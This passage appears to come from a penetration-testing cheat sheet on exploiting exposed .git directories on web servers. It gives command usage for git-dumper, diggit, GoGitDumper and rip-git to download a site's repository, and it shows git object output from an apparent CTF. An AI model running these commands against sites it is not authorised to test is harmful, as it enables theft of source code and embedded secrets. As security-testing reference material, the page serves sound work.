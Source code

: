 ```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```

### Tools

#### Automatic recovery

##### git-dumper.py

```powershell
git clone https://github.com/arthaud/git-dumper
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

##### diggit.py

```powershell
git clone https://github.com/bl4de/security-tools/ && cd security-tools/diggit
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

##### GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

##### rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```
